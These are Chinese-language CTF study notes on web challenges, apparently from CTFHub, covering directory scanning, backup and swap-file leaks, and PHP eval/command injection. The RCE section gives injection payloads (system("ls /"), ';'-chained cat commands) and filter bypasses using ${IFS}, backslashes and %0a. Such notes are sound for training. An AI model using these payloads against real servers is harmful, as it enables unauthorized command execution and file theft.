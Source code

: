 ## web技能树笔记

### 一、信息泄露

#### 1.目录遍历

dirsearch的使用

```
-u               攻击目标url地址，可以指定多个，通过逗号分隔
-l                url列表文件，比如你可以建一个 targets.txt，里面包含需要攻击的网址
-e               站点文件类型列表，如：php,asp，有默认配置：php,aspx,jsp,html,js，基本主流的格式都包含了
-X               不需要扫描的站点文件类型列表
-w               用指定爆破字典执行，若存在多个通过逗号分隔
-t               指定线程数
-i               仅现实指定的状态码，指定多个通过逗号分隔 
-x               不显示指定的状态码，指定多个通过逗号分隔 
--exclude-sizes=SIZES               不显示的响应包大小（Example: 123B,4KB）
--exclude-texts=TEXTS               不显示的响应包关键字 (Example: "Not found", "Error"）
-m               指定请求方式，默认GET
-h               帮助信息
```

#### 2.phpinfo（）函数使用

phpinfo() 是php中查看相关信息的函数，当在页面中执行phpinfo()函数时，php会将自身的所有信息全部打印出来。在phpinfo中会泄露很多服务端的一些信息，例如安装的一些模块、网站绝对路径、服务器自身的操作系统、使用的组件版本等等

在 PHP Variables 分类下的 $_ENV["FLAG"] 找到flag

#### 3.备份文件

##### （1）网站源码泄露

常见文件名

```
.rar
.zip
.7z
.tar
.tar.gz
.bak
.txt
.phps （用于浏览器查看php文件内容）
.swp(vim产生的临时文件，第二次是.swo，注：其文件前有个点，如文件名为index产生的临时文件为.index.swp)
~ (在文本编辑时产生的备份文件)
```

常见文件后缀

```
web
website
backup
back
www
wwwroot
temp
index
```

可在网站中直接访问备份文件获取flag，而不是在本地打开

##### （2）bak文件泄露

有些时候网站管理员可能为了方便，会在修改某个文件的时候先复制一份，将其命名为xxx.bak。而大部分Web Server对bak文件并不做任何处理，导致可以直接下载，从而获取到网站某个文件的源代码

curl工具的使用：[curl工具的入门级使用-CSDN博客](https://blog.csdn.net/m0_74259636/article/details/135953963)
使用curl通过网站访问bak文件，解决文件泄露的问题

##### （3）-vim 交换文件名

在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容以 index.php 为例：第一次产生的交换文件名为 `.index.php.swp`再次意外退出后，将会产生名为 `.index.php.swo` 的交换文件第三次产生的交换文件则为 `.index.php.swn`

注：访问隐含文件需要加.

用curl访问即可得到flag

```
curl https://a.com -o -      curl直接把文件输出在终端的命令，可直接查看二进制文件注释里隐含的flag
```

##### （4） .DS_Store 文件利用

`.DS_Store` 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过`.DS_Store`可以知道这个目录里面所有文件的清单。

用curl访问这个文件，然后发现里面的txt文件，再访问其中的txt文件

### 二、RCE

##### 1.eval执行

**eval()**函数是可以把一串字符串作为PHP代码执行，**system()**函数的作用为执行系统命令并输出执行结果

```
/?cmd=system("ls");  //先查看根目录文件
/?cmd=system("ls /");  //再查看上一级文件夹
/?cmd=system("cat flag_28080");  //cat查看文件
```

![image-20240924204400546](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20240924204400546.png)

##### 2.命令注入-无过滤

```php
linux中命令的链接符号
1.每个命令之间用;隔开
说明：各命令的执行给果，不会影响其它命令的执行。换句话说，各个命令都会执行，但不保证每个命令都执行成功。
2.每个命令之间用&&隔开
说明：若前面的命令执行成功，才会去执行后面的命令。这样可以保证所有的命令执行完毕后，执行过程都是成功的。
3.每个命令之间用||隔开
说明：||是或的意思，只有前面的命令执行失败后才去执行下一条命令，直到执行成功一条命令为止。
4. | 是管道符号。管道符号改变标准输入的源或者是标准输出的目的地。
5. & 是后台任务符号。 后台任务符号使shell在后台执行该任务，这样用户就可以立即得到一个提示符并继续其他工作。
```

无回显则查看页面源代码

![image-20240924221245961](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20240924221245961.png)

或转为base64后解码

![image-20240924221412351](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20240924221412351.png)

```
|直接执行后面的语句：
||如果前面的语句执行出错，则执行后面的语句，否则仅执行前面的语句：
&前后的语句均可执行，但是前面的语句如果执行结果为假（即执行失败），则仅输出后面语句的结果：
&&如果前面的语句为假，则直接报错，也不执行后面的语句。
;按顺序执行语句（Linux）
```

##### 3.过滤综合

###### （1）过滤cat

```
linux查看文本的命令
cat 由第一行开始显示内容，并将所有内容输出
tac 从最后一行倒序显示内容，并将所有内容输出
more 根据窗口大小，一页一页的现实文件内容
less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head 只显示头几行
tail 只显示最后几行
nl 类似于cat -n，显示时输出行号
tailf 类似于tail -f
```

使用more命令代替cat

###### （2）过滤空格

在 bash 下, 可以用以下字符代替空格：

```
<,<>,%20(space),%09(tab),$IFS$9, ${IFS},$IFS  等
```

![image-20240924222932526](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20240924222932526.png)

######   (3)过滤目录分隔符

```
12.0.0.1;cd flag_is_here;ls
12.0.0.1;cd flag_is_here;cat flag_173323177320747.php|base64
```

###### （4）综合过滤练习

```
空格可以用${IFS}，$IFS$9
cat可以用more，或者用ca\t即可，\可进行大部分简单绕过，c\at
flag可以用正则f***
ls可用dir 命令最基本的用途是列出当前目录的内容
ctfhub应该用不到
在linux下，命令分隔符除了;还有%0a
有了；就可以不用运算符了
```

因为%0a是url编码，所以一定要输在url中，否则%0a会被再次编码

![image-20240924224602203](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20240924224602203.png)